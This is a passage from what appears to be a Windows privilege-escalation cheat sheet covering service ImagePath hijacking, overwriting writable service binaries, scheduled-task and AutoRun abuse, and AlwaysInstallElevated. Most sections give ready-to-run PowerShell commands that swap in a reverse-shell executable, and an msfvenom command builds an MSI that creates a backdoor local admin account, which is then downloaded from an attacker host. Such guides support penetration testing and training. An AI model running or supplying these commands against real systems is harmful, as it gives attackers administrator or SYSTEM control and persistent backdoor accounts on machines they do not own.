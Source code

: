 If the service runs as SYSTEM, you'll get a SYSTEM shell when it starts.

### Unquoted Service Paths

Unquoted service paths with spaces can be abused if you can write to directories earlier in the search order. Check service ImagePath and file ACLs; if you can place an executable in the parsed path, it will be launched by the service.

### Modifying via Registry

If you can modify service registry keys (e.g., `HKLM\System\CurrentControlSet\Services\svcregistry`), change `ImagePath` to your executable and start the service.

```
Set-ItemProperty HKLM:\System\CurrentControlSet\Services\svcregistry -name ImagePath -Value 'C:\Users\user\Desktop\reverse.exe'
start-service svcregistry
```

### Insecure Executable Files

If `BUILTIN\Users` (or your account) has write permissions on the service executable, overwrite it and start the service.

```
cp .\reverse.exe 'C:\Program Files\FilePerms\service.exe'
start-service svcfileperms
```

## Auto-Start Programs

### Task Scheduler

Search scheduled tasks (excluding Microsoft tasks) and check the files they execute. Writable scripts invoked by tasks can be replaced to achieve escalation when the task runs as a higher-privileged user.

```
Get-ScheduledTask | where {$_.TaskPath -notlike "\Microsoft*"} | select *
```

If the scheduled script is writable by you, replace it with a reverse shell payload.

### Registry AutoRun

Startup entries in the registry (`HKLM`/`HKCU` Run and RunOnce keys) may be abused if you can write to them or the target executable.

## AlwaysInstallElevated

When `AlwaysInstallElevated` is set (`HKLM` and `HKCU` both = 1), standard users can install MSI packages with elevated privileges. You can craft an MSI (e.g., via msfvenom) to create a local admin user.

```
msfvenom -p windows/adduser USER=newadmin PASS='Password123!' -f msi -o newadmin.msi
Invoke-WebRequest -Uri "http://<IP>:8000/newadmin.msi" -OutFile .\Desktop\newadmin.msi
```
